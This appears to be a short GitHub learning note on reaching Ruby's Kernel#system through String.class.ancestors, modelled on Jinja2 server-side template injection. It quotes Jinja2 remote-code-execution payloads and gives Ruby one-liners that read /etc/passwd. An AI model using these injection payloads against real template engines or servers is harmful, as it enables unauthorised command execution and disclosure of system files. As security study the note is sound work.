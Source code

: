 # Using Ruby ancestors to Execute Code via the String class
## tldr/oneliner;
`ruby -e '"".class.ancestors[3].system("cat /etc/passwd")'`
## Why?
So I was doing a bit of reading on [SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection), specifically that of [Jinja/python](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---remote-code-execution) which looks like this:

```{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}```

For an explanation on how these work in python, I recommend checking out [this writeup](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee). Essentially, it made me wonder if you could do the same thing in ruby, and you definitely can (at least the accessing other methods part). No pwnz yet from me (though I can't be the first to think of this, so it may be a nothingburger, or just a cool trick) 
## How it works
In ruby, you would start by delcaring a string:
```
somestring = "a string";
```
This would create an object from the [String](https://ruby-doc.org/core-2.7.2/String.html) class. Thus, it would have access to all the methods of the String class. It _also_ has some ancestor classes. You can access these like so:
```
somestring = "a string";
puts somestring.class.ancestors;
```
When you run that, you should see the output:
```
String
Comparable
Object
Kernel
BasicObject
```
This is an array of ancestor methods/classes of the String class. Thus, you can access them by index!
```
somestring = "a string";
puts somestring.class.ancestors[3];
```
When you run that, you should see the output:
```
Kernel
```
We are now accessing the [Kernel](https://ruby-doc.org/core-2.7.2/Kernel.html) module, which has some pretty interesting methods... The _most_ interesting to me is the [system](https://ruby-doc.org/core-2.7.2/Kernel.html#method-i-system) method. Using this method, you can execute arbitrary shell commands.
```
somestring = "a string";
somestring.class.ancestors[3].system("cat /etc/passwd");
```
So, just a fun learning experience for me on how you can access things in unique ways in Ruby!
